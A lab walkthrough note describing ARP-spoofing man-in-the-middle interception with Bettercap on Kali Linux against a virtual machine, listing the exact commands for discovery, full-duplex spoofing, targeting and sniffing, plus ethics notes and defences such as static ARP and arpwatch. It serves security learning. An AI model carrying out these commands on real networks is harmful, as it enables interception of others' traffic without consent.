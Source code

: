 # 🔧 ARP Spoofing with Bettercap — Lab Walkthrough

> **Purpose**: Learn how to perform ARP spoofing using Bettercap in a controlled, ethical lab environment.

---

## 🧠 Objective

Simulate a **Man-in-the-Middle (MITM)** attack by poisoning the ARP table of a target machine (`192.168.48.254`) to intercept traffic, using **Bettercap** on Kali Linux.

---

## ⚙️ Environment

- **Attacker**: Kali Linux VM (`192.168.48.128`)
    
- **Target**: Another VM (`192.168.48.254`)
    
- **Network**: VMware internal NAT (192.168.48.0/24)
    

---

## 🛰️ Step-by-Step Execution

### 1. Start Bettercap on the right interface

```bash
sudo bettercap -iface eth0
```

### 2. Discover active devices on the network

```bash
net.probe on
```

> This launches network probing and automatically starts `net.recon`.

**Output:**

- Devices detected:
    
    - Gateway: `192.168.48.2`
        
    - Target: `192.168.48.254`
        

### 3. Show all hosts on the network

```bash
net.show
```

### 4. Set ARP spoofing to full-duplex (spoof both directions)

```bash
set arp.spoof.fullduplex true
```

### 5. Set your target IP

```bash
set arp.spoof.targets 192.168.48.254
```

### 6. Enable ARP spoofing

```bash
arp.spoof on
```

✅ **Result**: ARP spoofing begins, and Bettercap acts as the MITM between the gateway and the target.

⚠️ **Warning received**:

```
[sys.log] [war] arp.spoof full duplex spoofing enabled, if the router has ARP spoofing mechanisms, the attack will fail.
```

> This means modern routers with ARP spoofing protection may detect and block the attack.

---

## 🕵️ Observing the Traffic

To actually capture and analyze the data:

- Use `net.sniff` in Bettercap:
    
    ```bash
    net.sniff on
    ```
    
- OR inspect traffic with `Wireshark` on the same interface.
    

---

## ⚠️ Legal & Ethical Notes

- This was done in a **virtual lab**, **not a real-world network**.
    
- Never perform ARP spoofing on unauthorized or production networks.
    
- Use this knowledge to build **defenses** like:
    
    - Static ARP entries
        
    - ARP spoofing detection (e.g., `arpwatch`)
        
    - Switching to encrypted protocols (HTTPS, SSH)
        

---

## 📌 Summary for Report or Notebook

|Component|Detail|
|---|---|
|**Tool**|Bettercap|
|**Attack Type**|ARP Spoofing (MITM)|
|**Target IP**|192.168.48.254|
|**Commands Used**|`net.probe on`, `arp.spoof on`, `set arp.spoof.targets`|
|**Result**|Successfully spoofed ARP; traffic can be intercepted|
|**Ethics**|Done in lab only; unauthorized use is illegal|

---
## 🏷️ Tags

#Cyber_Security #Kali_Linux #Wifi_Hacking #Bettercap 

[[Bettercap]] 